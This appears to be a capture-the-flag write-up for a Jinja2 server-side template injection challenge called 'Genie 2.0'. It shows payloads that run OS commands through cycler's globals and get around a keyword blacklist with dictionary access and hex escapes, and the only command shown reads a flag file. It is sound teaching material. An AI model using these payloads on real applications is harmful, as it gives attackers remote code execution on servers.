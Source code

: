 # Challenge Name
Genie 2.0

# Description
It seems that you have some understanding, its only going to get harder.

# Difficulty
Hard

# Guide
How do you determine the presence of a SSTI vulnerability and template engine used?   
Click [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to find out more!

After reading the link, you should know that by testing by injecting a mathematical expression. 
```
{{ 7 * '7' }}
``` 
The output is `7777777`, we can determine that it using Jinja2.

If you proceed to test out some of the common payloads found online, there will be an error that the input is invalid. You should try experimenting with different inputs to determine what could be on the blacklist.

After some testing you should be able to get some of the blacklisted items. 
```
'class', 'request', 'self', 'config', '_', '.'
```

### The Payload   
To be able to execute system commands, we can leverage on Jinja2's access to Python objects, methods, and modules, particularly the `os` module.

Refer [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) for some common payloads! The following is a great point starting point with only `_` and `.` in the blacklist.

```
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

`cycler`: a built-in object in Jinja2 which acts as the entry point
`.__init__`: the method to initialize cycler   
`.__globals__`: retrieve the global scope   
`.os`: access the os module   
`popen('')`: the function which allows for execution of commands  
`.read()`: read the output of the executed command   

So how can we by bypass the `.` and `_`.   
We can use encoding methods to bypass the blacklist. However there will be a syntax error because of `cycler\`.   
To bypass the `.` we can access python object through a dictionary style. This would allow `cycler['__init__']` to access the same value as `cycler.__init__`.    

So from the original payload which uses dot notation, instead we can access object properties using dictionary style.
```
{{ cycler['__init__']['__globals__']['os']['popen']('cat flag.txt')['read']() }}
```

Next we can bypass the `_` with its hexadecimal representation `\x5f` and we can get the flag.

```
{{ cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['os']['popen']('cat flag\x2etxt')['read']() }}
```

# Hints
Tried encoding?

# Resources
https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection   
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

# Solution
There is a blacklist `'class', 'request', 'self', 'config', '_'`

The payload used.
```
{{ cycler['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['os']['popen']('cat flag\x2etxt')['read']() }}
```
